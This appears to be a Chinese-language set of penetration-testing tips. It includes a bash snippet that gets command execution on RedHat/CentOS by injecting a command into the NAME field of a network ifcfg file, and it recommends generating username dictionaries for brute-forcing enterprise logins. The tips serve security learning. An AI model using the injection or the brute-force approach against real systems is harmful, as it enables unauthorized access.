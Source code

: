 > 来自文章 : https://zgao.top/linux%e5%9c%a8%e6%b2%a1%e6%9c%89curl%e5%92%8cwget%e7%9a%84%e6%83%85%e5%86%b5%e4%b8%8b%e5%a6%82%e4%bd%95%e7%94%a8shell%e5%ae%9e%e7%8e%b0%e4%b8%8b%e8%bd%bd%e5%8a%9f%e8%83%bd/

---

来回切换多个osint搜索引擎很麻烦,一个个导出更是耗费时间,建议你试试我们的多网络资产测绘引擎 API 命令行查询工具

- https://github.com/ffffffff0x/ones

目前支持 : chaos、hunter、quake、zoomeye、shodan、fofa

---

企业中经常把企业简称(jsxx)、工号(10086)、姓名全拼(zhangsan)、姓名带点(jing.zhang)等做为登录用户名，攻击者收集工号、邮箱名，或者直接生成用户名字典进行爆破，成功率非常高，这里推荐我们开源的工具来进行字典的生成

- https://github.com/ffffffff0x/name-fuzz

---

Redhat/CentOS 发行版下可以通过写恶意网卡配置文件进行命令执行的方式,条件比较受限,但也是一种方法,可以学习一下
- https://seclists.org/fulldisclosure/2019/Apr/24

```bash
sudo tee /etc/sysconfig/network-scripts/ifcfg-1337 <<-'EOF'
NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0
EOF

service network restart             # 重启网络管理触发
systemctl status network.service    # 可以看到 id 已经执行
```

![](./assets/img/8.png)

---

nuclei 目前支持了多个 dns 变量,以 www.ffffffff0x.com 为例
```
{{FQDN}}        # www.ffffffff0x.com
{{RDN}}         # ffffffff0x.com
{{DN}}          # ffffffff0x
{{TLD}}         # com
{{SD}}          # www
```

当存在需要根据目标域名进行生成相应 payload 的需求时, 推荐用 nuclei 的这些变量

---

uuid 是常用的唯一标识符,很好用,不过这里推荐一个可以用于替代的 uuid 的解决方案 : https://github.com/ai/nanoid ,速度更快,更安全,已被移植到多种语言中

---

在 burp 的 raw 包如果要编写为 python 脚本不是很难，但是如果经常有这种需求，其实也很麻烦, 分享一个技巧，可以从 raw 包转换为 Python, JavaScript, PHP, R, Go, Rust 等代码的形式
1. 从 Burp 复制 http 请求到 https://curl.se/h2c/ 转换为 curl 命令
2. 复制 curl 命令到 https://curlconverter.com/
3. 完善生成的脚本,添加你需要的功能,验证即可
